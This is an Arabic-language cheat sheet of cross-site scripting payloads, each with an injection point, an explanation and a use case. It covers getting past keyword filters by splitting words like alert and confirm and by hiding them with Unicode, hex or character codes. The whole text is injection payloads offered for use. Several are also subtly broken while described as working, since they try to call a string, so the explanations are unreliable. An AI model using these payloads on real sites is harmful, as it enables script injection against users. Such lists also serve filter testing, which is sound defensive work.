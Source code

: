 #### أ. تقسيم الكلمات
{ #XSS_Obfuscation_payloads }
اختبار تقسيم الكلمات الحساسة (مثل `alert`, `confirm`) لتجنب فلاتر الكلمات المفتاحية.
- **الحقن**: `<script>('al'+'ert')('XSS')</script>`
  - **الإدخال**: أدخل في حقل بحث أو تعليق: `<script>('al'+'ert')('XSS')</script>`
  - **كيف يعمل**: يقسم `alert` إلى `'al'+'ert'`، مما يجعلها غير متطابقة مع فلاتر تحظر `alert`.
  - **متى يُستخدم؟**: عندما تحظر الفلاتر الكلمات الكاملة مثل `alert`.
- **الحقن**: `<script>window['al'+'ert']('XSS')</script>`
  - **الإدخال**: `https://example.com/search?query=<script>window['al'+'ert']('XSS')</script>`
  - **كيف يعمل**: يستخدم الوصول إلى خاصية `alert` عبر `window` مع تقسيم الكلمة.
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر `alert` ولكن تسمح بالوصول إلى خصائص الكائن.
- **الحقن**: `<script>eval('al'+'ert')('XSS')</script>`
  - **الإدخال**: أدخل في نموذج: `<script>eval('al'+'ert')('XSS')</script>`
  - **كيف يعمل**: يستخدم `eval` لتجميع وتنفيذ `alert`.
  - **متى يُستخدم؟**: عندما تسمح الفلاتر بـ `eval` ولكن تحظر `alert`.
- **الحقن**: `<script>window['a'+'l'+'e'+'r'+'t']('XSS')</script>`
  - **الإدخال**: أدخل في حقل: `<script>window['a'+'l'+'e'+'r'+'t']('XSS')</script>`
  - **كيف يعمل**: يقسم `alert` إلى حروف فردية لتعقيد أكبر.
  - **متى يُستخدم؟**: لتجاوز فلاتر متقدمة تحلل الكلمات.
- **الحقن**: `<script>('con'+'firm')('XSS')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>('con'+'firm')('XSS')</script>`
  - **كيف يعمل**: يقسم `confirm` لتجنب فلاتر نافذة التأكيد.
  - **متى يُستخدم؟**: لاختبار بدائل `alert`.
- **الحقن**: `<script>eval('prom'+'pt')('أدخل:','XSS')</script>`
  - **الإدخال**: أدخل في حقل: `<script>eval('prom'+'pt')('أدخل:','XSS')</script>`
  - **كيف يعمل**: يقسم `prompt` لاختبار نافذة الإدخال.
  - **متى يُستخدم؟**: لمحاكاة تفاعل المستخدم.

#### ب. التشفير
{  #XSS_ecoded_payload }
اختبار الشيفرات المشفرة باستخدام يونيكود، هيكس، أو ASCII لإخفاء الكلمات الحساسة.
- **الحقن**: `<script>\u0061lert('XSS')</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script>\u0061lert('XSS')</script>`
  - **كيف يعمل**: يشفر حرف `a` بيونيكود (\u0061 = a) لتجنب فلاتر `alert`.
  - **متى يُستخدم؟**: عندما تحظر الفلاتر النصوص العادية ولكن تسمح باليونيكود.
- **الحقن**: `<script>eval('\x61lert(\'XSS\')')</script>`
  - **الإدخال**: أدخل في نموذج: `<script>eval('\x61lert(\'XSS\')')</script>`
  - **كيف يعمل**: يشفر `a` بصيغة هيكس (\x61 = a).
  - **متى يُستخدم؟**: لتجاوز فلاتر تحظر النصوص ولكن تسمح بالهيكس.
- **الحقن**: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **الإدخال**: أدخل في تعليق: `<script>alert(String.fromCharCode(88,83,83))</script>`
  - **كيف يعمل**: يشفر "XSS" بقيم ASCII (88=X، 83=S).
  - **متى يُستخدم؟**: لإخفاء النصوص داخل التنبيهات.
- **الحقن**: `<script>alert('\x58\x53\x53')</script>`
  - **الإدخال**: أدخل في حقل: `<script>alert('\x58\x53\x53')</script>`
  - **كيف يعمل**: يشفر "XSS" بصيغة هيكس.
  - **متى يُستخدم؟**: لتجاوز فلاتر النصوص العادية.
- **الحقن**: `<script>alert('\u0058\u0053\u0053')</script>`
  - **الإدخال**: أدخل في URL: `https://example.com/search?query=<script>alert('\u0058\u0053\u0053')</script>`
  - **كيف يعمل**: يشفر "XSS" بيونيكود.
  - **متى يُستخدم؟**: لتجنب فلاتر تحظر النصوص العادية.
- **الحقن**: `<script>eval('\u0061\u006c\u0065\u0072\u0074')('XSS')</script>`
  - **الإدخال**: أدخل في نموذج: `<script>eval('\u0061\u006c\u0065\u0072\u0074')('XSS')</script>`
  - **كيف يعمل**: يشفر `alert` بالكامل بيونيكود.
  - **متى يُستخدم؟**: لتجاوز فلاتر متقدمة.
- **الحقن**: `<script>String.fromCharCode(97,108,101,114,116)('XSS')</script>`
  - **الإدخال**: أدخل في تعليق: `<script>String.fromCharCode(97,108,101,114,116)('XSS')</script>`
  - **كيف يعمل**: يشفر `alert` بقيم ASCII.
  - **متى يُستخدم؟**: لإخفاء الكلمات الحساسة.
